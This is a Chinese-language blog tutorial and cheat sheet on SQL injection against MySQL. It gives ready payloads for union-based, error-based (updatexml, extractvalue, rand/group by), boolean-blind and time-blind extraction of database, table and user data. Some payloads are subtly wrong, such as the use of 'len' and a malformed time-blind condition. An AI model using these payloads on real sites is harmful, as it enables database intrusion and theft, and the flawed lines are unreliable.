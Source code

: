 ```yaml
---
layout: post
title: "SQL注入"
date:   2021/4/9
tags: [OWASP top 10]
comments: true
author: c-uncle
---
```


# SQL注入的基本步骤

1. 先判断注入点
2. 有回显 or 无回显
3. 判断字段数
4. 查库名（如果不打算获取其他数据库的数据，可以跳过）
5. 查表名
6. 查具体数据

# 常规注入姿势

## 联合查询

### 查询库名

union select 1,group_concat(schema_name),3 from information_schema.schemata--+

### 查询表名

union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+

### 查询字段名

 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name='xxx'--+



## 报错注入

### 原理

利用mysql的逻辑错误，使程序返回带有数据的错误信息。

### 各种姿势

#### updatexml

payload：updatexml(1,concat(0x7e,(select user()),0x7e),1)

updatexml有字符数限制，最多显示32位，需要根据实际情况，结合length和substring来获取数据

#### extractvalue

payload：extractvalue(1,concat(0x7e,(select user()),0x7e))

和updatexml一样有字符数限制。

#### rand()+group by+conut()组合拳

**注意：这套组合拳在mysql8.0下无效**

这套组合拳的原里是利用虚拟表无法重复写入同一个键名来报错。

---

###### 背景知识

**group by** 可以对一个列或多个列进行分组。

group by 的虚拟表工作步骤：

1. 确定分组因子
2. 分组因子在虚拟表中没有记录，添加记录
3. 有记录，更新记录

**rand(0)**  可以随机生成0-1之间的实数，floor(rand(0)\*2)确保了生成的值只可能是0或1。

同时，rand是有规律的，floor(rand(0)\*2)生成的值会是011011循环。

---

程序在使用 **group by** 时会创建一个虚拟表来统计列出现的次数。

这个虚拟表是不允许重复写入同一个键的。

以 **select * from user group by floor(rand(0)\*2)** 为例。

程序会将select * from user的查询结果按floor(rand(0)\*2)分组。

假设user表中有三行数据。

对于第一条数据，

当group by 被执行时，需要先确定分组因子，也就是要先执行一次floor(rand(0)\*2)（第一次执行，结果为0）。

同时，程序遍历虚拟表，发现没有0，那么就会去添加键值为0的记录。

但是，程序在添加记录时，会再次执行floor(rand(0)\*2)（第二次执行，结果为1），导致添加到虚拟表里的记录是键值为1的记录。

对于第二条数据，floor(rand(0)\*2)第三次执行，结果为1，所以虚拟表会更新键值为1的记录。

对于第三条数据，floor(rand(0)\*2)第四次执行，结果为0，键值为0的记录不存在，于是准备添加记录。然而在添加时，floor(rand(0)\*2)第五次执行，结果为1。于是就变成要添加键值为1的记录。可是1的记录已经存在了，这时候就报错了。

**注意：一定要是rand(0)**

payload：union select count(\*), concat(':', (select group_concat(schema_name) from information_schema.schemata),':', floor(rand(0)*2)) as a,3 from information_schema.schemata group by a--+

用上面的payload演变出来的payload查具体数据是拿不到数据的，用来查表名，查字段名都正常。

查具体数据的payload：payload:id=1" union select count(\*), concat(':', (select concat(email_id, ':', id) from emails limit 1,1),':', floor(rand(0)*2)) as a,3 from information_schema.schemata group by a--+

#### uuid相关函数

payload:  1234' union SELECT 1, UUID_TO_BIN((select database()))#

可用于mysql8.0



## 布尔盲注

如果程序对于sql语句的不同执行结果，会返回不同的响应。利用这个特点，我们可以结合逻辑运算和len，substring，来猜测数据。

当sql语句执行结果永真或永假时，显示的页面是不同的，我们就可以使用盲注。

### 猜长度

payload: id=1' and len(select user())=**1**--+

### 猜具体数据

payload: id=1' and  substring((select user()), **1**,1) ='**a**'--+

## 时间盲注

当sql语句执行结果永真或永假时，响应是一样的。这时不能使用布尔盲注。

但是利用if语句和sleep函数，但if条件成立，sleep执行，使得响应时间变长，利用这一特点来猜测数据。

### 猜长度

payload: id=1' and if(len(select user())=**1**, sleep(5), 0)--+

### 猜具体数据

payload: id=1' and  if(substring((select user()), **1**,1), sleep(5), 0) ='**a**'--+